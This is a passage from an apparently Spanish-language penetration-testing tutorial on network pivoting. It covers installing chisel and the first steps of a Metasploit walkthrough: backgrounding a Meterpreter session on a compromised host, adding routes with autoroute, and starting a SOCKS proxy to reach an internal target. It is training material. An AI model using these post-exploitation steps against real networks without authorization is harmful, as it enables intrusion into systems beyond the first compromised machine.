 #### Para usar `chisel` (cliente/servidor):

```bash
# En Kali
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
gunzip chisel_1.8.1_linux_amd64.gz
chmod +x chisel_1.8.1_linux_amd64
mv chisel_1.8.1_linux_amd64 /usr/local/bin/chisel
```

---

### 🔥 Ejemplo completo paso a paso: Pivoting con Metasploit + Proxychains

---

#### 🧪 Escenario

- Tu máquina: `Kali Linux` (externa)
- Red interna de la víctima: `192.168.10.0/24`
- Máquina comprometida (pivot): `192.168.10.10`
- Objetivo escondido: `192.168.10.20` (solo accesible desde la máquina pivot)
- Quieres escanear o acceder a esa máquina

---

#### 1. Obtener acceso (ya sea por Meterpreter, SSH o netcat)

Supongamos que ya tienes una **session Meterpreter** en `192.168.10.10`.

---

#### 2. Cargar el módulo `autoroute` en Metasploit

```bash
meterpreter > background
msf6 > use post/multi/manage/autoroute
msf6 post(autoroute) > set SESSION 1
msf6 post(autoroute) > run
```

Esto te permite enrutar tráfico hacia la red interna `192.168.10.0/24`.

---

#### 3. Iniciar el proxy SOCKS

```bash
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(socks_proxy) > run
```

Por defecto corre en el puerto `1080`.

---
